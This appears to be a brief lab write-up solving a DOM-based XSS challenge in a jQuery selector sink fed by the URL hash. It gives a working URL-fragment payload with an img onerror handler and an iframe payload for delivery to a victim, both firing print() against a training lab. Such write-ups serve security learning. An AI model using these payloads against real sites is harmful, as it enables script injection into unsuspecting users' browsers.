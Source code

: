

This is the vulnerable code:
![](imgs/dom_xss_jquery_selector.png)


Whatever we type, this gets loaded in the DOM and the webpage gets scrolled into it (if it exists):
![](imgs/dom_xss_jquery_selector-1.png)


The payload is just adding whatever and then an `img`, `iframe` or whatever works:
![](imgs/dom_xss_jquery_selector-2.png)
The payload is: `https://0aee000a0461fc4485b98110009b0014.web-security-academy.net/#%22%3Cimg%20src=x%20onerror=print()%3E`

As this must be executed by the victim, we just store it in the exploit server:
`<iframe src="https://0aee000a0461fc4485b98110009b0014.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>`

Delivering the exploit triggers the XSS:
![](imgs/dom_xss_jquery_selector-4.png)

![](imgs/dom_xss_jquery_selector-3.png)
